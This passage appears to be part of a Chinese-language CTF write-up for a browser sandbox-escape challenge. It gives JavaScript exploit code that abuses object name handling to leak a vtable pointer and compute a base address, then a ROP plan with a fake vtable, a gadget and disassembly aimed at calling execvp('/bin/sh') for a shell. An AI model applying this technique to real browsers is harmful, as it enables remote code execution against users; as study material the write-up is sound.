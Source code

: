 第2～6步：
```
    for (let A = 0; A < cat_count; ++A) {
      name = (await cats[A].getName()).name;
      if (name != getIdString(A)) {
      	let B = name.charCodeAt(0);
      	if (B < 0 || B >= cats.length) {
      		break;
      	}
        await cats[B].setName('B'.repeat(sizeof_stringbuf * 100));
        one_more_cat = (await being_creator_interface_ptr.createCat()).cat;
        fake_vtable_ptr = 'F'.repeat(0x100);
        success("debug");	
	      //debug();
        await one_more_cat.setName(fake_vtable_ptr);

        name = (await cats[A].getName()).name;
        vtable_ptr = getUint64(name, 0);
        str_ptr = getUint64(name, 8);
        success_value("vtable_ptr: ", vtable_ptr);
        success_value("str_ptr: ", str_ptr);
        base_offset = 0x8fc1ae0n;
        base_ptr = vtable_ptr - base_offset;
        if ((base_ptr & 0xffn) != 0n) {
        	break;
        }
```

rop：

我们打算调用execvp("/bin/sh", char *const argv[]);来getshell

这里需要一个gadget：

```
// 0x555557ef9ff9 <FT_Load_Glyph+121>:  mov    rdi,QWORD PTR [rax+0xb8]

// 0x555557efa000 <FT_Load_Glyph+128>:  call   QWORD PTR [rdi+0x10]
```
我们可以用它来设置rdi（第一个参数即“/bin/sh”），此时的rax为fake vtable的地址，所以我们伪造时将execvp的plt安排在0x10处，之后将虚表中setAge的位置设置为gadget（+0x28），这样我们去调用setAge(x)，就可以同时达到设置rsi（参数二）和调用gadget的效果

setAge代码（由此可以得到设定rsi的方法）：
```
   0x5555587502b0 :    push   rbp
   0x5555587502b1 :    mov    rbp,rsp
   0x5555587502b4 :    sub    rsp,0x10
   0x5555587502b8 :    mov    QWORD PTR [rdi+0x20],rsi =>rdi+0x20为age所在地址，rsi为setAge要设定的值。
   0x5555587502bc :    mov    rdi,QWORD PTR [rdx]
   0x5555587502bf :    mov    QWORD PTR [rbp-0x8],rdi
   0x5555587502c3 :    mov    QWORD PTR [rdx],0x0
   0x5555587502ca :    call   QWORD PTR [rdi+0x8]
   0x5555587502cd :    lea    rdi,[rbp-0x8]
   0x5555587502d1 :    call   0x55555a192a80 <_ZN4base8internal12CallbackBaseD2Ev>
   0x5555587502d6 :    add    rsp,0x10
   0x5555587502da :    pop    rbp
   0x5555587502db :    ret
```
